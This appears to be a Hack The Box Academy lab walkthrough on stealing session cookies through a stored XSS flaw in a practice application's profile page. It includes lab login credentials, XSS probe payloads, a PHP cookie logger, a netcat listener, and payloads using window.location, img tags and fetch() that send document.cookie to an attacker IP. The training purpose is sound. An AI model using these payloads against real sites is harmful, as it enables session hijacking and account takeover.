 ```yaml
---
sticker: emoji//1f512
---
```

Cross-Site Scripting (XSS) vulnerabilities are among the most common web application vulnerabilities. An XSS vulnerability may allow an attacker to execute arbitrary JavaScript code within the target's browser and result in complete web application compromise if chained together with other vulnerabilities. In this section, though, we will focus on exploiting Cross-Site Scripting (XSS) vulnerabilities to obtain valid session identifiers (such as session cookies).

If you want to dive deeper into Cross-Site Scripting (XSS) vulnerabilities, we suggest you study our [Cross-Site Scripting (XSS)](https://academy.hackthebox.com/module/details/103) module.

For a Cross-Site Scripting (XSS) attack to result in session cookie leakage, the following requirements must be fulfilled:

- Session cookies should be carried in all HTTP requests
- Session cookies should be accessible by JavaScript code (the HTTPOnly attribute should be missing)

Proceed to the end of this section and click on `Click here to spawn the target system!` or the `Reset Target` icon. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target application and follow along. Don't forget to configure the specified vhost (`xss.htb.net`) to access the application.

Navigate to `http://xss.htb.net` and log in to the application using the credentials below:

```ad-note
- Email: crazygorilla983
- Password: pisces
```

This is an account that we created to look at the application's functionality. It looks like we can edit the input fields to update our email, phone number, and country.

![image](https://academy.hackthebox.com/storage/modules/153/20.png)

In such cases, it is best to use payloads with event handlers like `onload` or `onerror` since they fire up automatically and also prove the highest impact on stored XSS cases. Of course, if they're blocked, you'll have to use something else like `onmouseover`.

In one field, let us specify the following payload:

```javascript
"><img src=x onerror=prompt(document.domain)>
```

We are using `document.domain` to ensure that JavaScript is being executed on the actual domain and not in a sandboxed environment. JavaScript being executed in a sandboxed environment prevents client-side attacks. It should be noted that sandbox escapes exist but are outside the scope of this module.

In the remaining two fields, let us specify the following two payloads.

```javascript
"><img src=x onerror=confirm(1)>
```

```javascript
"><img src=x onerror=alert(1)>
```

We will need to update the profile by pressing "Save" to submit our payloads.

![image](https://academy.hackthebox.com/storage/modules/153/21.png)

The profile was updated successfully. We notice no payload being triggered, though! Often, the payload code is not going to be called/executed until another application functionality triggers it. Let us go to "Share," as it is the only other functionality we have, to see if any of the submitted payloads are retrieved in there. This functionality returns a publicly accessible profile. Identifying a stored XSS vulnerability in such a functionality would be ideal from an attacker's perspective.

That is indeed the case! The payload specified in the _Country_ field fired!

![image](https://academy.hackthebox.com/storage/modules/153/22.png)

Let us now check if _HTTPOnly_ is "off" using Web Developer Tools.

![image](https://academy.hackthebox.com/storage/modules/153/23.png)

_HTTPOnly_ is off!

---

## Obtaining session cookies through XSS

We identified that we could create and share publicly accessible profiles that contain our specified XSS payloads.

Let us create a cookie-logging script (save it as `log.php`) to practice obtaining a victim's session cookie through sharing a vulnerable to stored XSS public profile. The below PHP script can be hosted on a VPS or your attacking machine (depending on egress restrictions).

```php
<?php
$logFile = "cookieLog.txt";
$cookie = $_REQUEST["c"];

$handle = fopen($logFile, "a");
fwrite($handle, $cookie . "\n\n");
fclose($handle);

header("Location: http://www.google.com/");
exit;
?>
```

This script waits for anyone to request `?c=+document.cookie`, and it will then parse the included cookie.

The cookie-logging script can be run as follows. `TUN Adapter IP` is the `tun` interface's IP of either Pwnbox or your own VM.

```shell-session
smoothment@htb[/htb]$ php -S <VPN/TUN Adapter IP>:8000
[Mon Mar  7 10:54:04 2022] PHP 7.4.21 Development Server (http://<VPN/TUN Adapter IP>:8000) started
```

Before we simulate the attack, let us restore Ela Stienen's original Email and Telephone (since we found no XSS in these fields and also want the profile to look legitimate). Now, let us place the below payload in the _Country_ field. There are no specific requirements for the payload; we just used a less common and a bit more advanced one since you may be required to do the same for evasion purposes.

Payload:

```javascript
<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://<VPN/TUN Adapter IP>:8000/log.php?c=' + document.cookie;"></video>
```

**Note**: If you're doing testing in the real world, try using something like [XSSHunter](https://xsshunter.com/), [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator) or [Project Interactsh](https://app.interactsh.com/). A default PHP Server or Netcat may not send data in the correct form when the target web application utilizes HTTPS.

A sample HTTPS>HTTPS payload example can be found below:

```javascript
<h1 onmouseover='document.write(`<img src="https://CUSTOMLINK?cookie=${btoa(document.cookie)}">`)'>test</h1>
```

**Simulate the victim**

Open a `New Private Window`, navigate to `http://xss.htb.net` and log in to the application using the credentials below:

- Email: smallfrog576
- Password: guitars

This account will play the role of the victim!

Now, navigate to `http://xss.htb.net/profile?email=ela.stienen@example.com`. This is the attacker-crafted public profile that hosts our cookie-stealing payload (leveraging the stored XSS vulnerability we previously identified).

You should now see the below in your attacking machine.

![image](https://academy.hackthebox.com/storage/modules/153/52.png)

Terminate the PHP server with Ctrl+c, and the victim's cookie will reside inside `cookieLog.txt`

![image](https://academy.hackthebox.com/storage/modules/153/53.png)

You can now use this stolen cookie to hijack the victim's session!

---

## Obtaining session cookies via XSS (Netcat edition)

Instead of a cookie-logging script, we could have also used the venerable Netcat tool.

Let us try that as well for completeness's sake.

Before we simulate the attack, let us place the below payload in the _Country_ field of Ela Stienen's profile and click "Save." There are no specific requirements for the payload. We just used a less common and a bit more advanced one since you may be required to do the same for evasion purposes.

```javascript
<h1 onmouseover='document.write(`<img src="http://<VPN/TUN Adapter IP>:8000?cookie=${btoa(document.cookie)}">`)'>test</h1>
```

Let us also instruct Netcat to listen on port 8000 as follows.


```shell-session
smoothment@htb[/htb]$ nc -nlvp 8000
listening on [any] 8000 ...
```

Open a `New Private Window` and navigate to `http://xss.htb.net/profile?email=ela.stienen@example.com`, simulating what the victim would do. We remind you that the above is an attacker-controlled public profile hosting a cookie-stealing payload (leveraging the stored XSS vulnerability we previously identified).

By the time you hold your mouse over "test," you should now see the below in your attacking machine.

![image](https://academy.hackthebox.com/storage/modules/153/54.png)

Please note that the cookie is a Base64 value because we used the `btoa()` function, which will base64 encode the cookie's value. We can decode it using `atob("b64_string")` in the Dev Console of Web Developer Tools, as follows.

![image](https://academy.hackthebox.com/storage/modules/153/55.png)

You can now use this stolen cookie to hijack the victim's session!

We don't necessarily have to use the `window.location()` object that causes victims to get redirected. We can use `fetch()`, which can fetch data (cookies) and send it to our server without any redirects. This is a stealthier way.

Find an example of such a payload below.

```javascript
<script>fetch(`http://<VPN/TUN Adapter IP>:8000?cookie=${btoa(document.cookie)}`)</script>
```

Give it a try...

It is about time we jump to another session attack called Cross-Site Request Forgery (CSRF or XSRF).

# Question
---

![](Pasted image 20250219124916.png)

Answer is:

```
yes
```
